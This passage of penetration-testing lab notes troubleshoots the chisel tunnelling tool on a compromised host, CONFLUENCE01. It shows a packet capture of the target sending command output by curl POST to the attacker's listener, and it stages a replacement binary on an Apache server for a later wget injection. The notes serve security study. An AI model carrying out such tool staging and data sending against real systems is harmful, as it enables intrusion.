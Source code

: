 ```bash
    192.168.50.63.50192 > 192.168.118.4.8080: Flags [P.], cksum 0x1535 (correct), seq 1:359, ack 1, win 502, options [nop,nop,TS val 391724691 ecr 3105669986], length 358: HTTP, length: 358
        POST / HTTP/1.1
        Host: 192.168.118.4:8080
        User-Agent: curl/7.68.0
        Accept: */*
        Content-Length: 204
        Content-Type: application/x-www-form-urlencoded

        /tmp/chisel: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.32' not found (required by /tmp/chisel)/tmp/chisel: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.34' not found (required by /tmp/chisel) [|http]
        0x0000:  4500 019a bacf 4000 3d06 f729 c0a8 db3f  E.....@.=..)...?
        0x0010:  c0a8 2dd4 c410 1f90 d15e 1b1b 2b88 002d  ..-......^..+..-
...
```
The data in the body of the `POST` request tells us that [**glibc**](https://www.gnu.org/software/libc/) (which the chisel client is trying to find) *is not installed on `CONFLUENCE01`*.
### Version Incompatibility
The above error is likely due to `CON01` running *an older [operating system](../../computers/concepts/operating-system.md) version* than our chisel binary is compiled for. We can check for the exact version of chisel  our binary uses with:
```bash
kali@kali:~$ chisel -h

  Usage: chisel [command] [--help]

  Version: 1.8.1-0kali2 (go1.20.7)

  Commands:
    server - runs chisel in server mode
    client - runs chisel in client mode

  Read more:
    https://github.com/jpillora/chisel
```
Based on some [issues](https://github.com/golang/go/issues/58550)on the Golang repo, we learn that Go binaries compiled with Go 1.2 tend to cause issues with `glibc` if the OS they're running on *does not have a compatible version of `glibc`*. We can try to fix this by using a chisel release *compiled with Go 1.19* (one version of Go below our current version).

Once we download the new binary onto our Kali machine, we'll have to *serve it on the Apache server again* and then do another injection with `wget` to fetch it onto `CON01`:
```bash
kali@kali:~$ wget https://github.com/jpillora/chisel/releases/download/v1.8.1/chisel_1.8.1_linux_amd64.gz

--2023-10-03 16:33:35--  https://github.com/jpillora/chisel/releases/download/v1.8.1/chisel_1.8.1_linux_amd64.gz
Resolving github.com (github.com)... 140.82.121.4
Connecting to github.com (github.com)|140.82.121.4|:443... connected.
...
Length: 3494246 (3.3M) [application/octet-stream]
Saving to: 'chisel_1.8.1_linux_amd64.gz'

chisel_1.8.1_linux_am 100%[========================>]   3.33M  9.38MB/s    in 0.4s    

2023-10-03 16:33:37 (9.38 MB/s) - 'chisel_1.8.1_linux_amd64.gz' saved [3494246/3494246]

kali@kali:~$ gunzip chisel_1.8.1_linux_amd64.gz

kali@kali:~$ sudo cp ./chisel /var/www/html   
[sudo] password for kali:
```